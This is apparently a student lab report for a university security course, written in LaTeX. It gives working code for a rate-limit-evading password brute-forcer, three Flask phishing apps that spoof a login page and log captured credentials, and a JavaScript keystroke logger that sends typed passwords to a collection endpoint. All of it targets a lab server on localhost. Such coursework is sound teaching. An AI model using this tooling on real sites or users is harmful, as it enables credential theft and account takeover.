\documentclass{article}
\usepackage[utf8]{inputenc}

\title{CSE3140 — Lab 4}
\author{Mike Medved, Benny Chen}
\date{November 1st, 2022}

\usepackage{color}
\usepackage{amsthm}
\usepackage{amssymb} 
\usepackage{amsmath}
\usepackage[margin=1in]{geometry} 
\usepackage{listings}
\usepackage{xcolor}
\usepackage{minted}
\usepackage{hyperref}
\usepackage{graphicx}

\hypersetup{
    colorlinks=true,
    linkcolor=blue,
    linkbordercolor={0 0 1}
}

\usemintedstyle{emacs}
% \setmonofont{JetBrains Mono}

\begin{document}

\maketitle

\section*{Deliverables}

\subsection*{Part 1}
We selected \textit{Britt49} as the User ID, and discovered that user had \$27,452 in their account.

\subsection*{Part 2}

In order to crack the victim's password, we created a script to brute-force the credentials of the user against the production server. The script, and it's results are included below:

\begin{minted}[fontsize=\scriptsize]{python}
import os
import requests
import threading
import time

user = "V_Jameal49"
target = "http://localhost:2222"

def crack(threadId, user, passwords, target):
    for password in passwords:
        response = requests.post(target, data={'username': user, 'password': password, 'submit': 'Sign In'})
        if "You Logged In!!" in response.text:
            with open('Q2.txt', 'w') as f:
                f.write(password)
            os._exit(1)
    
    print(f"[*] Thread {threadId} terminated")

with open("Q2dictionary", "r") as f:
    i = 1

    # make an array with all the passwords
    passwords = f.read().splitlines()

    # split passwords into 200 chunks
    chunks = [passwords[i:i + 200] for i in range(0, len(passwords), 200)]

    print(f"Processing using {len(chunks)} threads.")

    # create a thread for each chunk
    threadId = 0
    for passwords in chunks:
        t = threading.Thread(target=crack, args=(threadId, user, passwords, target))
        t.start()
        threadId += 1

        # evade ratelimiting
        time.sleep(0.5)

    for passwords in chunks:
        t.join()
\end{minted}    

$\hfill \break$
This script found that \textit{alskdjfhg} was the valid password for our victim user, \textit{V\_Jameal49}.

\newpage
\subsection*{Part 3}

For this problem, we were tasked with creating a simple Flask application that renders our team number, and member names to the index page. The script that accomplished this is shown below:

\begin{minted}[fontsize=\scriptsize]{python}
from flask import Flask

app = Flask(__name__)

@app.route("/")
def hello_world():
    return """
    <html>
        <body>
            <center>
                <h1>Team 9</h1>
                <h3>Mike Medved, Benny Chen</h3>
            </center>
        </body>
    </html>
    """

if __name__ == "__main__":
    app.run()
\end{minted}

$\hfill \break$
Below is the screenshot of the website being visited:

\begin{figure}[!htb]
    
\includegraphics[width=0.5\textwidth]{q3.png}
    \label{fig:flask}
\end{figure}

\subsection*{Part 4}

Below is the Flask application used to spoof the real login page, as well as collect credentials from victim(s):

\begin{minted}[fontsize=\scriptsize]{python}
import time

import requests
from flask import Flask, redirect, render_template, request, url_for

app = Flask(__name__)
target = 'http://localhost:2222'

def capture_credentials(username, password):
    with open('credentials.txt', 'a') as f:
        f.write(f'[{time.time()}] {username}:{password}\n')

@app.route("/", methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        # Get username + password from login form, record to file, and then redirect to real page
        username, password = [request.form.get('username'), request.form.get('password')]
        capture_credentials(username, password)
        redirect(target)

        return redirect(requests.post(target, data={'username': username, 'password': password}).url, code=307)

    # Render the fake login form
    return render_template('index.html')

@app.route('/management', methods=['GET'])
def management():
    # Render the credentials viewer page
    with open('credentials.txt', 'r') as f:
        credentials = f.read().splitlines()
        return render_template('management.html', credentials=credentials)

if __name__ == "__main__":
    app.run()
\end{minted}

$\hfill \break$
The demonstration video for this section was submitted alongside this report on HuskyCT.

\subsection*{Part 5}

Below is the Flask application used to spoof the real login page with a custom background, it behaves very similarly to the previous application, but when the page is loaded, the background is set on the frontend:

\begin{minted}[fontsize=\scriptsize]{python}
import time

import requests
from flask import Flask, redirect, render_template, request, url_for

app = Flask(__name__)
target = 'http://localhost:2222'

def capture_credentials(username, password):
    with open('credentials_custom.txt', 'a') as f:
        f.write(f'[{time.time()}] {username}:{password}\n')

@app.route("/", methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        # Get username + password from login form, record to file, and then redirect to real page
        username, password = [request.form.get('username'), request.form.get('password')]
        capture_credentials(username, password)
        redirect(target)

        return redirect(requests.post(target, data={'username': username, 'password': password}).url, code=307)

    # Render the fake login form
    return render_template('index_custom.html')

@app.route('/management', methods=['GET'])
def management():
    # Render the credentials viewer page
    with open('credentials_custom.txt', 'r') as f:
        credentials = f.read().splitlines()
        return render_template('management.html', credentials=credentials)

if __name__ == "__main__":
    app.run()
\end{minted}

$\hfill \break$
Similarly to the previous section, the demonstration video for this section is submitted alongside this report on HuskyCT.

$\hfill \break$
\textbf{Note:} I verbally received a bonus token for this problem, but have not received it over email as of submitting this report. I will leave a comment in the HuskyCT assignment with it once I receive it. 

\newpage
\subsection*{Part 6}

Below is the Flask application and JS contents used to both spoof the real login page, and to silently collect the victim's credentials while they are typing:

\begin{minted}[fontsize=\scriptsize]{python}
import time
import requests
from flask import Flask, json, redirect, render_template, request, url_for

app = Flask(__name__)
target = 'http://localhost:2222'

def capture_credentials(username, password):
    print(username, password)
    with open('credentials_partial.txt', 'a') as f:
        f.write(f'[{time.time()}] {username if username else "Unavailable"}:{password if password else "Unavailable"}\n')

@app.route("/", methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        # Get username + password from login form, record to file, and then redirect to real page
        username, password = [request.form.get('username'), request.form.get('password')]
        capture_credentials(username, password)
        redirect(target)

        return redirect(requests.post(target, data={'username': username, 'password': password}).url, code=307)

    # Render the fake login form
    return render_template('index_keystrokes.html')

@app.route("/partial", methods=['POST'])
def partial():
    if request.method == 'POST':
        data = json.loads(request.data)
        keys = data.keys()

        username = ''
        password = ''

        if 'username' in keys:
            username = data['username']
        if 'password' in keys:
            password = data['password']

        capture_credentials(username, password)

@app.route('/management', methods=['GET'])
def management():
    # Render the credentials viewer page
    with open('credentials_custom.txt', 'r') as f:
        credentials = f.read().splitlines()
        return render_template('management.html', credentials=credentials)

if __name__ == "__main__":
    app.run()
\end{minted}

$\hfill \break$
Here is the JS code used to capture the keystrokes and relay them to the server:

\begin{minted}[fontsize=\scriptsize]{javascript}
// get the username and password fields
let username = document.querySelector('#username');
let password = document.querySelector('#password');

// listen for onkeyup event for the username and password fields
username.addEventListener("keyup", _ => capture());
password.addEventListener("keyup", _ => capture());

// construct the credentials payload to send
const construct = () => ({
    username: username.value,
    password: password.value
});

// capture the data in the respective field and sent it
const capture = () => fetch('http://localhost:5000/partial', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify(construct())
});
\end{minted}

\end{document}
